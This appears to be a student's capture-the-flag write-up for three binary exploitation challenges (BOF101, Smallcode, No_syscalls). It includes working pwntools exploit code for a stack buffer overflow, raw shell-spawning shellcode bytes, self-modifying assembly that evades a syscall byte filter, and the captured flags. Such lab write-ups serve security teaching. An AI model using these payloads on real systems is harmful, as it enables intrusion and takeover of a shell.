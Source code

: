 # BOF101

The first thing to do to exploit the vulnerability in this exercise as the name suggested was finding the correct offset to make the input buffer overflow.
In order to do so I used the cyclic pattern explained in the slides using pwntools methods that made this task quite simple

```python
pattern = pwn.cyclic(100)
io = pwn.process(bin)
io.sendline(pattern)
offset = pwn.cyclic_find(0x6161616C)
```

The text printed out by the bin suggested that there was a leaked address where it was possible to inject some code so I parsed it out and added it to the payload along with a 'nop sled', that assured that the next instruction would be our shellcode forged using pwntools

```python
leaked_address = io.recvuntil(b"&x=")
leaked_address = io.recvline().strip().decode()
io.sendline(
    b"a" * OFFSET_RIP
    + pwn.p64(int(leaked_address, 16))
    + pwn.asm("nop") * 50
    + pwn.asm(pwn.shellcraft.sh())
)
```

Doing so I was able to get the first flag

```
BASC{Congratz_U_3Xpl0it3d_your_f1r5t_BOF}
```

# Smallcode

```
Don't be fooled by my name: I'm a great code-runner ;-) ... though I can only run a small amount of code each time.

Send me any x64 shellcode, up to 25 bytes, and I'll execute it (at a random address, in rwx memory).
```

Using the resources I found in the slides I was able to find a shell-code on "shell-storm.org" with a length of just 24 bytes that executed the command 

```c
execve("/bin/bash",{NULL},{NULL})
```

Sending the shell-code as I found it was just enough to get the flag

```python
shellcode = b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05"
io.send(shellcode)
```

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
```

# No_syscalls

```
Send me any x86 shellcode (up to 42 bytes), which contains no system calls, and I'll execute it (at a random address, in rwx memory).
```

In order to spawn a shell is necessary to do at least one syscall so it had to be forged anyway in our code. Trying to send a simple shell-code containing syscalls' bytes resulted in

```
INT 80h is forbidden
```

So there must have been some byte-checking step that blocked syscalls.
An approach explained in the slides was 'self-modifying code' that permits to avoid restrictions in some cases.
So I slightly modified the original shell-code

```python
    shellcode = pwn.asm(
    """
    _start:
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx,esp
    mov ecx,eax
    mov edx,eax
    mov al,0xb
    call _incr

    _incr:
    pop edi
    inc byte ptr [edi + 5]
    .byte 0xcd
    .byte 0x7f
	"""
	)
```

The trick resides in the 'incr' function where the instead of explicitly writing the 0x80 syscall's byte I wrote 0x7f, which is incremented by one in a second moment, bypassing the pattern checking and successfully bringing out the exploit and granting me the flag

```
BASC{s4ndb0X1n9_AiNt_3a5y}
```


